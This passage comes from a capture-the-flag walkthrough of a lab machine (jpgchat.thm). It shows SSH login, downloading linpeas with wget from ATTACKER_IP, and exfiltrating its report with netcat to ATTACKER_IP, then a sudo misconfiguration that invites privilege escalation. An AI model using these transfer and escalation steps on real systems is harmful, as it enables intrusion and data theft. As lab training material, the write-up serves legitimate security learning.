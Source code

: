 Now we can finally login via SSH:
```bash
ssh wes@jpgchat.thm
```

From my machine i transferred the `linpeas.sh` script on the target using a python HTTP server:
```bash
python3 -m http.server
```

On target:
```bash
wget http://ATTACKER_IP:8000/linpeas.sh
```

Now let's make the file executable and run it:
```bash
chmod +x linpeas.sh
```
```bash
./linpeas.sh > linpeas_report
```

For better readability i then transferred the report on my machine:
```bash
nc -lvnp 4444 > linpeas_report
```

On target:
```bash
nc -nv ATTACKER_IP 4444 < linpeas_report
```

Interestingly we see that we can run as `sudo` a command without the need for a password:
```
User wes may run the following commands on ubuntu-xenial:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /opt/development/test_module.py
```

Let's view the file permissions and content:
```bash
ls -l /opt/development/test_module.py
```
```bash
-rw-r--r-- 1 root root   93 Jan 15  2021 test_module.p
```

```bash
cat /opt/development/test_module.py
```

It contains the following Python script:
```python
#!/usr/bin/env python3
from compare import *

print(compare.Str('hello', 'hello', 'hello'))
```

It imports the `compare` module and then it print the output of `compare.Str()`.

